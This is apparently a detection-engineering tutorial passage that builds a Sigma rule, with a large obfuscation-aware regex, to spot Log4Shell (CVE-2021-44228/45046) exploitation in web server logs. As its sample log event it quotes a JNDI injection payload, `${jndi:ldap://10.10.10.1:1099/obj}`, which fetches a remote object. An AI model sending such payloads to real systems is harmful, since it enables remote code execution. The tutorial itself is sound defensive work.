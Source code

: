 The ideation phase is already done because we know the rule that we'd like to develop. There is a server that is vulnerable to CVE-2021-44228 and CVE-2021-45046.

Next we need to generate or find a log event. We can start with some basic threat hunting (searching for the keyword `jndi` is a good start) or we can jump straight to using a tool that will generate this event in our logs like Tennable or Qualys. For the sake of this example, let's assume that the string we found in our logs is `${jndi:ldap://10.10.10.1:1099/obj}`. 

Because this is a well researched topic we can find some detection logic online. One thing to know about Log4J is that it is very commonly obfuscated. While there is a clear pattern that is required to execute the attack, there are a number of ways to format the `jndi` string to achieve the goal of the attacker. In your research you found the following regex: https://github.com/back2root/log4shell-rex and we can now push this into a Sigma rule. (Please do not spend too much time breaking down this regex. It is complicated and if you're interested it is documented in that repo. But that is not the point of this exercise!) 

```yaml
title: Log4J Exploitation Discovery Via Regex
id: 3e814be2-b7c2-4a2e-bda1-628617ef5678
status: test
description: Detects Log4J and obfuscated Log4J attacks using a complex regex
references:
    - https://github.com/back2root/log4shell-rex
author: back2root, Josh Nickels
date: 2024-05-19
tags:
    - attack.initial-access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection:
        keywords|re: '(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\\x{130}\\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\\x{130}\\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\\x{130}\\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\\x{130}\\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))'
    condition: selection
falsepositives:
    - Vulnerability scanners
level: high
```